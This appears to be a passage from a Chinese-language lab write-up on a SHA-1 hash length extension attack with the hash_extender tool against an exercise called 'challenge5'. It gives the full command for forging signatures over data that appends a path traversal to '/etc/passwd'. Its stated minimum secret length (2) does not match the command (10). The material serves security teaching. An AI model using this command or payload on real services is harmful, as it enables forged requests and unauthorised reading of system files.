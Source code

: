 > 安装完成后，查看hash_extender的用法：

![image](images/6.png)


### Using hash_extender

- 在这里我们对challenge5进行攻击实验，所以设置The hash_type of the signature为‘**sha1**’，The original string that we're going to extend为‘**test**’，The original signature为‘**dd03bd22af3a4a0253a66621bcb80631556b100e**’（在上述实验过程中可以得到），设置The data to append to the string为‘**../../../../../../../../../etc/passwd**’，设置min secret length为**2**，设置max secret length为**40**。将最后的结果输出为**signatures-n-strings.out**。

> 具体命令如下：

```
$ ./hash_extender -f sha1 --data 'test' -s dd03bd22af3a4a0253a66621bcb80631556b100e --append '../../../../../../../../../etc/passwd' --secret-min=10 --secret-max=40 --out-data-format=html --table > signatures-n-strings.out

```
> 生成文件的部分截图：

![image](images/10.png)
